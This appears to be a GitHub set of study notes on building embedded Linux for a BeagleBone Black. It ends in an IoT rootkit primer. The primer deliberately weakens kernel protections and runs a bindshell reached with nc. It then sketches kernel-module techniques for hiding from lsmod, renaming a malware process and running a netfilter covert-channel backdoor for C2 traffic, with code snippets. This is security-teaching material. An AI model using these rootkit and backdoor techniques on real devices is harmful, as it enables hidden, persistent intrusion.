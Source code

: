 ![Plan of action Slide](https://github.com/kymb0/IoT/raw/main/note_dir/images/steps.png)  

Before running through steps: run [packages.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/packages.sh) > set paths and alias for build (example in [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh))  

<h2>Step 1 - Build our toolchain (what is a [toolchain?](https://github.com/kymb0/IoT/blob/main/note_dir/Toolchain.md))</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf crosstool-ng-1.23.0.tar.xz
cd crosstool-ng-1.23.0
./configure --prefix=$BASE_INSTALL_DIR/Step-1/customtoolchain
make
make install
cd ..
cp config_file .config
ct-ng build
```  

To do this we must configure crosstool-ng, and then compile it.  
We configure with `ct-ng menuconfig` (An example config is [here](https://github.com/kymb0/IoT/blob/main/note_dir/ct-ng-config))  
most options in config are self explainatory, the only one that was not (for me) was C library. By defukat this was set to gLibc, we want uClibc - this is because uClibc is more of a "smaller and barebones library"

The actual commands to do the above are as follows, as we can see all we are doing is unpacking the offline install directory as well as changing the base install directory from `/` to `/Step-1/customtoolchain`, build crosstool-ng with `make`, install with `make install`, and then build our custome toolchain using the installed and configured crosstool-ng.  
Once built, we can see our binaries in the specified /bin/ directory - this important for later on.

</details>  

<h2>Step 2 - Configure and compile u-boot</h2>
<details>
  <summary></summary>  

Commands for this step:  
```
tar xf u-boot-2018.01.tar.bz2`  
cd u-boot-2018.01
cp ../u-boot-2018.01 .config
arm-make
```
Explaination of above:  
  
So first, we decompress u-boot.tar, and move into it, as this contains the files we need to configure and compile.  
Then we copy the config file across - Why do we need a config file?  
As we are compiling u-boot for a specific device (beagleboneblack), we will need to feed u-boot many device specific details, as u-boot will be responsible for initializing many devices.  
To locate which config to use we look inside `configs/` - which contains configs files for different processors, boards, etc. These configs tell u-boot which support needs to be compiled in aswell as env settings.  
How do we create the config file?  
For the BBB, we can find our particular configs with `ls config/am335x_*`  
this will list all relevant files - luckily for us the SoC/board manufacturer will stipulate which configs are to be used, we can gleam this from their website. In this case Texas Instruments site tells us to use `am335x_evm_defconfig` in order to boot beagleboneblack.  

It is important to note that u-boot will also look will look at the corresponding .dts file with the same naming convention as the config file specified by manufacturer, so, `am335x_evm.dts`  
This file works off a template for the entire am335 family, and inturn THAT template works off a skeleton template.  
(the dts contains large amounts of info regarding different devices, power profiles, memory locations, etc)

Now, compilation process - note `arm make` is an alias for `'ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make'` as set by the [environ.sh](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/environ.sh) file. Essentially it sets the architecture to arm and sets the crosscompilation toolchain to the binary installed by our custom toolchain in step 1.  
`arm-make distclean` - clean out settings  
`arm-make am335x_evm_defconfig` - using the alias, this will create a config file for us to use (we can inspect and modify via `arm-make menuconfig`)   What would we want to modify? possibly the CLI, shellprompt, boot-delay, etc. We can also include support for additional commands, filesystem support, etc.

finally after creating our config file, we run `arm-make`, after 5 or so minutes we will see our `MLO` file, aswell as u-boot.img, etc.  
</details>  

<h2>Step 3 - Compiling Kernel and Device Tree Binary</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf linux-4.15.7.tar.xz
cd linux-4.15.7
cp ../linux-4.15.7-config .config
ARCH=arm CROSS_COMPILE=arm-unknown-linux-uclibcgnueabihf- make -j $(nproc) zImage dtbs modules OR arm-make -j $(nproc) zImage dtbs modules
```
Explaination of above:  
extract the linux kernel (may take some time: one of, if not THE largest repo in the world)  
move into the directory (root of kernel sources)  
we need a config to make sure we compile a kernel capable of running on the beagleboneblack  

Our base defconfig file will be `arch/arm/configs/multi_v7_defconfig` as this contains support for many, many SoC's (obviously including )  
arm-make multi_v7_defconfig to make our base config  
now we customise with `arm-make menuconfig`  
something we may like to change is the kernel .config support option (a M indicates the complete `.config` file will be compiled as an external MODULE, whereas a `*` means the `.config` means it will be built in to the kernel, we want the support built in, so we select `*`)

We would also like KPROBES enabled, as this will allow us to figure many things out in the kernel at runtime - necessary for rootkits and such

[*Note*] As this kernel will be for IoT/embedded devices, as such we will be INTENTIONALLY select options to make the kernel weaker for the purpose of demonstrating rootkits. (in saying this, many IoT devices, even modern ones actualy SHIP with these settings off)  

First we UNSELECT `make kernel text and rodata read-only`, this allows us to play with the syscall table.  
We also UNSELECT `Set loadable kernel module data as NX and text as RO` 

Last we turn `SECCOMP` off in order to enable the full use of certain syscalls, in addition to turning ON `NETFILTER` which is the framework which is used to run iptables, create custom firewalls, packet routing etc. (generally on by default in anycase)  

(We can reduce size of zImage file after compilation by compiling this kernel for ONLY the am335x SoC. wWe do this at menuconfig stage by selecting in systemtypes: TI OMAP/AM family and only select am335x)

Now with these settings done, we compile the kernel (again with our alias):  
`arm-make -j $(nproc) zImage modules dtbs` nproc is number of cpus, we want to also compile in the zImage, modules we selected, aswell as device tree binary.

After this is completed, we can view the zImage files with `ls arch/arm/boot -lh`, `ls arch/arm/boot/dts/am335x-bone*` and so forth.  
</details> 

<h2>Step 4 - Create Root Filesystem</h2>
<details>
  <summary></summary>  

Commands for this step:
```
tar xf buildroot-2017.11.2.tar.gz
cd buildroot-2017.11.2
cp ../buildroot-2017.11.2-config .config
mkdir dl 
cp ../dl/* dl/
make clean
make
```
We will start by unzipping buildroot and moving into it.
Just as there were beaglebone specific config files in the kernel, we have the same situation with buildroot. We generate our config with
`arm-make configs/beaglebone_defconfig`.
Again, `arm-make menuconfig` to modify some settings: Very importantly we do not want buildroot to download and use it's own toolchain - we must change Toolchain type from the default to `external toolchain` and Toolchain from `Linaro` to `Custom toolchain`.
Toolchain prefix must be `arm-unknown-linux-uclibcgnueabihf` - this will tell buildroot how to search for our toolchain binaries. Make sure our gcc version lines up with what he have, in addition to linux kernel version we compiled.   Then we turn on wchar, local, rpc support.  
Lastly we go up one level in settings, and make sure we uncheck Kernel and bootloader as we have built our own. Now in filesystem we select tar filesystem and compression method `xz`.  
Buildroot is now configured to build out the filesystem for the beaglobone black.  
As the packages required are already downloaded, we copy them into the buildroot dl folder.  
Finally we `make` and wait a while, there may be some errors at the end however these can be ignored  
We can see our rootfs tar file in the `output/images/` dir of buildroot as well as a `uEnv.txt` file we could use if we wanted.  
</details>  

<h2>Step 5 - Preparing SD card and booting!</h2>
<details>
  <summary></summary>  

Step 5 - Bringing it all together

Now we have our: 
BOOT partition: `MLO`, `u-boot.img`, and `uEnv.txt` (created Step 2)  
KERNEL partition: `zImage` (linux kernel) and `XX.dtb` (Device Tree) (Created Step 3)  
ROOTFS Partition: `busybox`, `Sytem Utilities`, `Kernel Modules`, and `Custom Programs` (created Step 4)  

  <details>
  <summary>SD Partitioning</summary>  
    
  ![sdPartitioning](https://github.com/kymb0/IoT/raw/main/note_dir/images/sd_part.png)  
    
  </details>
  
We can achieve our partitioning with a number of tools, an wasy way is via `gparted`, typically we want `fat32 100mb` for BOOT, `ext4 1000mb`, kernel , and the rest for rootfs.

Now if we open the pre-configured eEnvtxt file, and in bootargs we CHANGE the rootfs from partition2 to partition3.

Next copy the files we need from each step with the below script/commands:
```
2/u-boot-2018.01/MLO MLO/
cp ../Step-2/u-boot-2018.01/u-boot.img u-boot/
cp ../Step-3/linux-4.15.7/arch/arm/boot/zImage kernel/
cp ../Step-3/linux-4.15.7/arch/arm/boot/dts/am335x-boneblack.dtb dtb/
cp ../Step-4/buildroot-2017.11.2/output/images/rootfs.tar.xz filesystem/ 
cp MLO/MLO /media/iot/BOOT
cp u-boot/u-boot.img /media/iot/BOOT
cp uEnv.txt /media/iot/BOOT
sudo cp kernel/zImage /media/iot/kernel
sudo cp dtb/am335x-boneblack.dtb /media/iot/BOOT
sudo tar -C /media/dev/Linux -xvJf /home/dev/testing_dir/embedded-linux/Step-5/filesystem/rootfs.tar.xz
```
Now... plug that bad boy in and power it up! *If you are connected via UART cable you will be able to monitor the boot process.
</details>

<h2>Step 6 (part 1) - Basic backdoor example</h2>
<details>
  <summary></summary>  

In this exercise we assume 2 things:  
First, our beaglebone is connected via ethernet to a bridged port to our laptop, and we are monitoring our beaglebone via UART cable.  

For this exersize we can use any of [bindshell](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/bindshell.c), [hello](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello_world.c), or [hello in ARM assembly](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/hello.s) to demonstrate code execution. The below section will assume bindshell.c because shells r fun. (this particular program is your standard c program however you could also utilise a c-wrapper for assembly, aka spin up msfvenom and drop it in)

We can use our cross compilation tools directly `arm-unknown-linux-uclibcgnueabihf-gcc bindshell.c -o bindshell`  
running `file` against our output binary will confirm the cross-compilation.  
The next step is to `sudo cp /var/lib/tftpboot/` and then collect from our VM `tftp -g -r bindshell 192.x.x.x`, make executable `chmod +X bindshell`  
Now we run and viola, we can `nc` into a session. This is obviously a very basic example, however these notes set the foundation for some of the cooler stuff down the road. **Note we could easily set this binary to run under certain condition (boot, etc) and also modify the code to service multiple clients and also be persistent with it's listener**  
</details>

<h2>Step 6 (part 2) - IoT rootkit primer</h2>
<details>
  <summary></summary>  


#### Following on from Part 1, these notes are very basic and later on I will do the dedicated rootkit course and create a separate note repo for more advanced rootkit techniques but for now, here are the meat and potatoes.

### Kernel module rootkit example:

Example: [helloworld.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/helloworld.c)  
Can be ported to other platforms quite easily (the make file tells you what is required).  
Run as part of the kernel - has access to everything inside the kernel, can look at and modify memory etc.  

When we insert a module, the module's init routine runs.  
We may need to look at supressing log messages being print to the console when developing rootkits.  

When we compile kernel modules, we must specify an entire compiled linux source.  

Once we compile the kernel file (making use of our arm-make alias) and bring it into our device, we double check loaded modules with `lsmod` (on our barebones fresh kernel nothing should be listed).   
Now to insert the example helloworld rootkit: `insmod helloworld.ko`, we can also remove with `rmmod helloworld.ko` in this example rootkit we will see that the `init` and `exit` log messages appear in console. we can supress with `dmesg -n 1`.   

### Hiding Rootkits:
(Note that depending on your kernel, some `c` functions will change - you can use a site called bootlin to locate your kernel version, if you search your function you can locate where it is defined)  

### An example of a hidden rootkit  
Example: [iamhiding.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/iamhiding.c)  
As we covered, we can view running/loaded modules with `lsmod`, however, we would much prefer our rootkit NOT to get listed and impossible to remove with `rmmod`.  

### How do we do this?   
In the rootkit code, we make a reference to ourselves `placeholder`, and then remove ourselves from the kernel's global module list `placeholder`.
You will notice that we lock the module_mutex so that any other kernel thread trying to access or modify the module list is unable to do so while we perform our operation. We unlock at the end.

### PID obfuscation  
Example: [changename.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/changename.c)
In addition to hiding ourselves, we may also want to modify malware proc name eg `bindshell` appearing in `ps`
To do this we will need to take the `pid` of the proc we want to change, aswell as what we want to change it to.
So after we compile and copy over changename.ko, we can change a procs name: `insmod changename.ko process_pid=100 new_name='Linux-Kernel'`

### network stack monitoring
Example: [network.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/network.c)  
Example: [covert-network.c](https://github.com/kymb0/IoT/blob/main/note_dir/example_files/rootkits/covert-network.c)  
Behind common network tools such as iptables, there are a set low-level network hooks which run inside the kernel called netfilter.  
Netfilter proveds all the hooks in the network stack which allows you to use iptables to configure network firewalling etc. Netfilter provides these hooks at various locations in the protocol stack. EG a packet comes in a netfilter hook is hit (NF_IP_PRE_ROUTING), if the packet is destined for the current address it will then go to NF_IP_LOCAL_IN, if it destined for another routable IP NF_IP_FORWARD, The packet then passes a final netfilter hook NF_IP_POST_ROUTING before going back on the wire. If the packet was created locally then NF_IP_LOCAL_OUT is called.  
Almost all IoT devices will have netfilter.  
It is important to note which kernel version you are on as netfilter code can vary drastically depending which kernel you are on.  

Almost anytime a backdoor is leveraging netfilter, it will have to determine which hook to use. Similar to how when we build a listener and everything must be specified at a granular level. An example snippet is below:   


```
static struct nf_hook_ops outgoing = {
        .hook = hooker, //name of our hooking function
        .hooknum = NF_IP_LOCAL_OUT, // we monitor traffic going out
        .pf = NFPROTO_IPV4, //listen for ipv4 packets
        .priority = NF_IP_PRI_LAST //give us last priority as a hook

};
```

The rest of the code is in the example code, where whenever an outgoing packet is detected, we will capture all the packet information.

The next stage of weaponisation using the network stack is a backdoor using a covert channel, which we will discuss now.

Kernel mode network backdoor:  
We want to create a netfilter hook, so in the example code, we will see that we define our hook structure, looking at ipv4 PRE-routing (as soon as they come into the machine).  
We see that the hook is defined to see if the IoT device recieves a packet where both the SYN and RESET flags are set, the source and dest port numbers are 9999, then the backdoor concludes that the packet is from the C2. It then looks at the payload and displays the data in /var/log/messages (this example is not weaponised, it can be weaponised using kernel helper functions).  

```
  if(ntohs(tcp_header->source) == COVERT_SRC_TCP_PORT 
                                        && ntohs(tcp_header->dest) == COVERT_DST_TCP_PORT 
                                        && tcp_header->syn 
                                        && tcp_header->rst ) {


                                data = (unsigned char *)((unsigned char *)tcp_header + (tcp_header->doff * 4));

                                skb_tail = skb_tail_pointer(skb);


                                if(skb_tail > data) {

                                        // Yes, there is data! :) 
```

We get the ip header, check if it is a TCP packet, look at the TCP header and check that source/dest are 9999 and check that SYN and RESET flags are set. If these conditions are met we then data portion of packet, if there is data, we then conclude this is part of our covert channel, and print out the source IP and then the data portion. We return NF_drop at the end in order to drop the packet, as we do not want to process it any further due to this being a covert channel.  
</details>
